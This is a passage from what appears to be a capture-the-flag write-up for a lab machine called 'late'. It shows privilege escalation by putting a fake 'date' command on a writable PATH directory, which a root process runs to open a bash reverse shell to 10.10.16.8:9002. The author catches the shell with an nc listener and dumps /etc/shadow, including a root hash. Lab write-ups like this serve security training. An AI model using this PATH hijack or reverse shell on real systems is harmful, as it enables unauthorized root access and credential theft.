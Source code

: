 if we check the PATH environment variable:

```bash
svc_acc@late:/usr/local/sbin$ echo $PATH
/home/svc_acc/.local/bin:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/usr/local/games:/snap/bin
```

So it's clear enough now, I'll hijack the `date` command as follows:



```bash
svc_acc@late:/usr/local/sbin$ echo 'bash -i >& /dev/tcp/10.10.16.8/9002 0>&1' > date
```

then give it the executable permission:

```bash
svc_acc@late:/usr/local/sbin$ chmod +x date 
```

setup a nc listener:

```bash
[werz@Arch root]$ nc -lvnp 9002
```

then logout from the ssh session:

```bash
svc_acc@late:/usr/local/sbin$ exit
logout
Connection to late.htb closed.
[werz@Arch user]$ 
```

and we got a root reverse shell hit back!

```bash
[werz@Arch root]$ nc -lvnp 9002
Connection from 10.10.11.156:42138
bash: cannot set terminal process group (27748): Inappropriate ioctl for device
bash: no job control in this shell
root@late:/# cat /etc/shadow  
cat /etc/shadow
root:$6$a6J2kmTW$cHVk8PYFcAiRyUOA38Cs1Eatrz48yp395Cmi7Fxszl/aqQooB.6qFmhMG1LYuHJpGvvaE1cxubWIdIc1znRJi.:19089:0:99999:7:::
daemon:*:18480:0:99999:7:::
bin:*:18480:0:99999:7:::
sys:*:18480:0:99999:7:::
sync:*:18480:0:99999:7:::
games:*:18480:0:99999:7:::
man:*:18480:0:99999:7:::
lp:*:18480:0:99999:7:::
mail:*:18480:0:99999:7:::
news:*:18480:0:99999:7:::
uucp:*:18480:0:99999:7:::
proxy:*:18480:0:99999:7:::
www-data:*:18480:0:99999:7:::
backup:*:18480:0:99999:7:::
list:*:18480:0:99999:7:::
irc:*:18480:0:99999:7:::
gnats:*:18480:0:99999:7:::
nobody:*:18480:0:99999:7:::
systemd-network:*:18480:0:99999:7:::
systemd-resolve:*:18480:0:99999:7:::
syslog:*:18480:0:99999:7:::
messagebus:*:18480:0:99999:7:::
_apt:*:18480:0:99999:7:::
lxd:*:18480:0:99999:7:::
uuidd:*:18480:0:99999:7:::
```